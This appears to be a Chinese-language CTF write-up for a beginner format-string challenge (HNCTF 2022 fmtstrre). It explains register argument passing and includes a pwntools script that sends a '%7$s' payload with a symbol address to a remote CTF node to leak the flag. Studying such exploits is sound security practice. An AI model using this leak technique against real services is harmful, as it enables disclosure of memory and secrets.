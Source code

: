 ```yaml
---
title: PWN入门-格式化字符串漏洞做题
date: 2024-01-26 23:07:36
tags: PWN
mathjax: true
---
```


# PWN入门-格式化字符串漏洞做题

## [HNCTF 2022 Week1]fmtstrre

函数传参前6个用寄存器rdi、rsi、rdx、rcx、r8、r9，从第七个开始压栈，所以“%7\$s”表示输出栈地址第1个位置当作字符串输出，后4个“a”用于将格式化字符串8字节对齐，看到flag只出来一半就再往前推地址。

```python
from pwn import *
context(log_level='debug',os='linux',arch='amd64')
elf=ELF('./attachment')
p=remote("node5.anna.nssctf.cn",28285)
p.recvuntil("Input your format string.")
fmtstr=b'%7$saaaa'
name_addr=p64(elf.sym["name"]-0x20)
payload1=flat([fmtstr,name_addr])
p.sendline(payload1)
p.interactive()
```
